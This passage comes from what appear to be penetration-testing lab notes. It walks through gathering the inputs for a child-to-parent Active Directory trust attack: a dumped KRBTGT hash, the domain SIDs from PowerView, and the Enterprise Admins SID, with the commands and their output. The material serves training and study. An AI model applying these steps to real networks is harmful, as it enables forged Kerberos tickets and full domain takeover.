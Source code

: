 ```
    lm  - 0: 69df324191d4a80f0ed100c10f20561e

Supplemental Credentials:

SNIP

```

KRBTGT hash : `9d765b482771505cbe97411065964d5f`.

#### Step 2: getting the SID for the child domain

```powershell
Import-Module .\PowerView.ps1
Get-DomainSID
```

However it was also visible in the Mimikatz output above.

#### Step 3: getting the name of a target user in the child domain (does not need to exist!)

For instance, `hacker`.

#### Step 4: getting the FQDN of the child domain.

It was also visible in the Mimikatz output above: `LOGISTICS.INLANEFREIGHT.LOCAL`.


#### Step 5: getting the SID of the Enterprise Admins group of the root domain

Next, we can use `Get-DomainGroup` from PowerView to obtain the SID for the Enterprise Admins group in the parent domain. 

```powershell
Get-DomainGroup -Domain $domain -Identity "$GroupName" | select distinguishedname,objectsid
# Example: 
# Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid
```

We could also do this with the [Get-ADGroup](https://docs.microsoft.com/en-us/powershell/module/activedirectory/get-adgroup?view=windowsserver2022-ps) cmdlet:

```powershell
Get-ADGroup -Identity "$GroupName" -Server "$DomainServer"`
# Example: 
# Get-ADGroup -Identity "Enterprise Admins" -Server "INLANEFREIGHT.LOCAL"
```

Results:

```
distinguishedname                                       objectsid
-----------------                                       ---------
CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL S-1-5-21-3842939050-3880317879-2865463114-519
```

